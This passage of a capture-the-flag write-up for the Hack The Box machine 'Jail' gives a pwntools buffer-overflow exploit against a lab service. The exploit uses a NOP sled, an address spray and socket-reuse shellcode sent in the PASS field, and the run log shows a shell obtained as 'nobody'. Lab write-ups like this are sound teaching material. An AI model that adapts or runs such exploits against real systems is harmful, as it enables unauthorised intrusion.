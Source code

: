 Next, we need to connect to the remote service:
{% highlight python %}
HOST = '10.10.10.34'
PORT = 7411
r = remote(HOST, PORT)
{% endhighlight %}

One of the many awesome things about pwntools, is that it can do a lot of the annoying shellcode work for us. It has a 
module called <a href="http://docs.pwntools.com/en/stable/shellcraft.html">shellcraft</a> which has architecture specific
shellcode for common needs. In this case, we want to find an open socket and open a shell on it, and then jumping into
that shellcode (address of buffer plus an offset into our <a href="https://en.wikipedia.org/wiki/NOP_slide">NOP-sled</a>):
{% highlight python %}
buf = asm(shellcraft.findpeersh())
sizeof_buffer = 240  # buffer is 256 - 16 (sizeof(userpass)) = 240
nop   = asm(shellcraft.nop())
pad   = nop
addr = 0xffffd610 + 0x30
{% endhighlight %}

Finally, we calculate the final payload, and send it:
{% highlight python %}
address_buf = p32(addr) * 8  # address spray
buf = buf.rjust(sizeof_buffer - len(address_buf), pad)
buf = address_buf + buf

log.info("Exploit buf:\n%s" % hexdump(buf, 8))

r.send('DEBUG\n')
sleep(0.1)
r.send('USER admin\n')
sleep(0.1)
r.send('PASS ' + buf + '\x00')
r.interactive()
{% endhighlight %}
{% highlight shell %}
[root:~/Documents/htb/jail]# python2 win.py
[+] Opening connection to 10.10.10.34 on port 7411: Done
[*] Exploit buf:
    00000000  40 d6 ff ff  40 d6 ff ff  │@···│@···│
    *
    00000020  90 90 90 90  90 90 90 90  │····│····│
    *
    00000098  90 90 90 90  6a ff 6a 07  │····│j·j·│
    000000a0  89 e5 5b 5e  6a 66 58 46  │··[^│jfXF│
    000000a8  8d 4c 24 e0  6a 04 60 cd  │·L$·│j·`·│
    000000b0  80 85 c0 61  5a 75 ed 89  │···a│Zu··│
    000000b8  f3 6a 03 59  49 6a 3f 58  │·j·Y│Ij?X│
    000000c0  cd 80 75 f8  6a 68 68 2f  │··u·│jhh/│
    000000c8  2f 2f 73 68  2f 62 69 6e   │//sh│/bin│
    000000d0  89 e3 68 01  01 01 01 81  │··h·│····│
    000000d8  34 24 72 69  01 01 31 c9  │4$ri│··1·│
    000000e0  51 6a 04 59  01 e1 51 89  │Qj·Y│··Q·│
    000000e8  e1 31 d2 6a  0b 58 cd 80  │·1·j│·X··│
    000000f0
[*] Switching to interactive mode
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
$ whoami
nobody
